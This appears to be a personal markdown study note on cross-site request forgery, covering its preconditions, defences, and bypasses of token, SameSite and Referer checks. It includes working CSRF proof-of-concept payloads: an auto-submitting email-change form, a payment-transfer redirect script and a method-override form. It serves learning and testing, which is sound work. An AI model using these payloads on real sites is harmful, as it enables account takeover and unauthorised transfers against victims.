


- allows an attacker to induce users to perform actions that they do not intend to perform
	- partly circumvent the same origin policy (designed to prevent different websites from interfering with each other)
	- can induce victim to change password, change email or make bank transfer
- needs:
	- **relevant action**: action within the app that attacker has reason to induce
	- **cookie based session handling**: app relies solely on session cookies to identify user, and no other mechanisms in place
	- **no unpredictable request parameters**: eg. the function is not vulnerable if the attacker needs to know the value of existing password in order to change password
		```
		POST /email/change HTTP/1.1
		Host: vulnerable-website.com
		Content-Type: application/x-www-form-urlencoded
		Content-Length: 30
		Cookie: session=yvthwsztyeQkAPzeQ5gHgTvlyxHfsAfE
		
		email=wiener@normal-user.com
		```
		- relevant action, only session cookie to identify user, only email parameter required to change email to trigger password reset 
		- attacker can submit the following:
			```html 
			<html>
			    <body>
			        <form action="https://vulnerable-website.com/email/change" method="POST">
			            <input type="hidden" name="email" value="pwned@evil-user.net" />
			        </form>
			        <script>
			            document.forms[0].submit();
			        </script>
			    </body>
			</html>
			```
			- use CSRF PoC generator that is built in Burp 
				- select the request and right click to *Engagement tools-> Generate CSRF PoC*
				- cookies will be added by the victim's browser
			Lab: [CSRF vulnerability with no defenses](../../../../writeups/portswigger/CSRF%20vulnerability%20with%20no%20defenses.md)
			- use phishing links or stored XSS
			- self-contained attack: `` (assuming it is a `GET` request)
# Defences Against CSRF
- **CSRF tokens**: secret, unpredictable value that is generated by the server side app and shared with the client. client must include the correct token when performing a sensitive action
	- usually included as a hidden parameter
		```
		<form name="change-email-form" action="/my-account/change-email" method="POST">
		    <label>Email</label>
		    <input required type="email" name="email" value="example@normal-website.com">
		    <input required type="hidden" name="csrf" value="50FaWgdOhi9M9wyna8taR1k3ODOR8d6u">
		    <button class='button' type='submit'> Update email </button>
		</form>
		```

		```
		POST /my-account/change-email HTTP/1.1
		Host: normal-website.com
		Content-Length: 70
		Content-Type: application/x-www-form-urlencoded
		
		csrf=50FaWgdOhi9M9wyna8taR1k3ODOR8d6u&email=example@normal-website.com
		```
- **SameSite cookies**: browser mechanism that determines whether a website's cookies are included in requests originating from other websites
	- prevents sensitive actions from being triggered cross-site
- **referer-based validation**: `Referer` header used to verify that the request originated from app's own domain (less effective than token)
# Flaws In CSRF Token Validation 
## Validation Depending On Request Method
- switch the method (eg. if `POST`, change to `GET` method)
Lab: [CSRF where token validation depends on request method](../../../../writeups/portswigger/CSRF%20where%20token%20validation%20depends%20on%20request%20method.md)
## Validation Depending On Token Being Present
- remove the token parameter
## Token Not Tied To User Session
- some applications do not validate that the token belongs to the same session as the user who is making the request 
- Instead, the application maintains a global pool of tokens that it has issued and accepts any token that appears in this pool
- attacker can log into their application using their own account, obtain a valid token and then feed that token to the victim user in their CSRF attack
Lab: [CSRF where token is not tied to user session](../../../../writeups/portswigger/CSRF%20where%20token%20is%20not%20tied%20to%20user%20session.md)
## Token Tied To A Non-Session Cookie
- some applications do tie the CSRF token to a cookie, but not to the same cookie that is used to track sessions
	```
	POST /email/change HTTP/1.1
	Host: vulnerable-website.com
	Content-Type: application/x-www-form-urlencoded
	Content-Length: 68
	Cookie: session=pSJYSScWKpmC60LpFOAHKixuFuM4uXWF; csrfKey=rZHCnSzEp8dbI6atzagGoSYyqJqTz5dv
	
	csrf=RhV7yQDO0xcq9gLEah2WVbmuFqyOq7tY&email=wiener@normal-user.com
	```
- attacker can log into the application using their own account, obtain a valid toke and associated cookie, leverage the cookie-setting behaviour to place their cookie into the victim's browser, and feed their token to the victim in their CSRF attack
Lab: [CSRF where token is tied to non-session cookie](../../../../writeups/portswigger/CSRF%20where%20token%20is%20tied%20to%20non-session%20cookie.md)
## CSRF Token Is Simply Duplicated In A Cookie
- some applications do not maintain any server-side record of tokens that have been issued, but instead duplicate each token within a cookie and a request parameter
- double submit defense
	- application simply verifies that the token submitted in the request parameter matches the value submitted in the cookie
		```
		POST /email/change HTTP/1.1
		Host: vulnerable-website.com
		Content-Type: application/x-www-form-urlencoded
		Content-Length: 68
		Cookie: session=1DQGdzYbOJQzLP7460tfyiv3do7MjyPw; csrf=R8ov2YBfTYmzFyjit8o2hKBuoIjXXVpa
		
		csrf=R8ov2YBfTYmzFyjit8o2hKBuoIjXXVpa&email=wiener@normal-user.com
		```
- attacker can invent the token in the required format, leverage the cookie-setting behaviour to place the cookie in the victim's browser and feed their token to the victim in their CSRF attack
Lab: [CSRF where token is duplicated in cookie](../../../../writeups/portswigger/CSRF%20where%20token%20is%20duplicated%20in%20cookie.md)
# Bypassing SameSite Cookie Restrictions
- browser security mechanism that determines when a website's cookies are included in requests originating from other websites
- URL is taken into consideration
	- link from `http://example.com` to `https://example.com` is treated as cross-site by most browsers
## Site vs Origin

### None
- browsers will always send cookies\
- when setting a co okie with SameSite=None, the website must also include the Secure attribute, which ensures that the cookie is only sent in encrypted messages over HTTPS. Otherwise, browsers will reject the cookie and it won't be set. 
`Set-Cookie: trackingId=0F8tgdOhi9ynR1M9wa3ODa; SameSite=None; Secure`
### Strict
- browsers will not send the cookie in any cross-site requests
### Lax
- Cookie will only be sent if 1) is a `GET` request and 2) the request originates from a top-level navigation
	
## Bypassing SameSite Lax Using `GET` Requests
```html
<script>
    document.location = 'https://vulnerable-website.com/account/transfer-payment?recipient=hacker&amount=1000000';
</script>
```
Even if `GET` request is not allowed, can override the method specified
```html
<form action="https://vulnerable-website.com/account/transfer-payment" method="POST">
    <input type="hidden" name="_method" value="GET">
    <input type="hidden" name="recipient" value="hacker">
    <input type="hidden" name="amount" value="1000000">
</form>
```
Lab: [SameSite Lax bypass via method override](../../../../writeups/portswigger/SameSite%20Lax%20bypass%20via%20method%20override.md)
## Bypassing SameSite Restrictions Using On-Site Gadgets
- can get around `SameSite=Strict` limitation if can find gadget that results in a secondary request within the same site
	- eg. client-side redirect that dynamically constructs the redirection target using attacker controllable input like URL params
Lab: [SameSite bypass via client-side redirect](../../../../writeups/portswigger/SameSite%20bypass%20via%20client-side%20redirect.md)
## Bypassing SameSite Lax Restrictions With Newly Issued Cookies
- lax restrictions not enforced for 120s
- you can trigger the cookie refresh from a new tab so the browser doesn't leave the page before you're able to deliver the final attack
	- minor snag with this approach is that browsers block popup tabs unless they're opened via a manual interaction. For example, the following popup will be blocked by the browser by default
	- wrap the statement in an `onclick` event handler
		```
		window.onclick = () => {
		    window.open('https://vulnerable-website.com/login/sso');
		}
		```
Lab: [SameSite Lax bypass via cookie refresh](../../../../writeups/portswigger/SameSite%20Lax%20bypass%20via%20cookie%20refresh.md)
# Bypassing Referer-Based CSRF Tokens
- use `Referer` header to verify that the request originated from the application's domain.
- some applications validate the `Referer` header when it is present in requests but skip the validation if the header is omitted.
- in this situation, an attacker can craft their CSRF exploit in a way that causes the victim user's browser to drop the `Referer` header in the resulting request
	- there are various ways to achieve this, but the easiest is using a META tag within the HTML page that hosts the CSRF attack:
		`<meta name="referrer" content="never">`
- some applications validate the `Referer` header in a naive way that can be bypassed. For example, if the application validates that the domain in the `Referer` starts with the expected value, then the attacker can place this as a subdomain of their own domain:
	`http://vulnerable-website.com.attacker-website.com/csrf-attack`
- likewise, if the application simply validates that the `Referer` contains its own domain name, then the attacker can place the required value elsewhere in the URL:
	`http://attacker-website.com/csrf-attack?vulnerable-website.com`
- although you may be able to identify this behavior using Burp, you will often find that this approach no longer works when you go to test your proof-of-concept in a browser. In an attempt to reduce the risk of sensitive data being leaked in this way, many browsers now strip the query string from the `Referer` header by default.
	- you can override this behavior by making sure that the response containing your exploit has the `Referrer-Policy: unsafe-url` header set. This ensures that the full URL will be sent, including the query string.
Labs:
[CSRF where Referer validation depends on header being present](../../../../writeups/portswigger/CSRF%20where%20Referer%20validation%20depends%20on%20header%20being%20present.md)
[CSRF with broken Referer validation](../../../../writeups/portswigger/CSRF%20with%20broken%20Referer%20validation.md)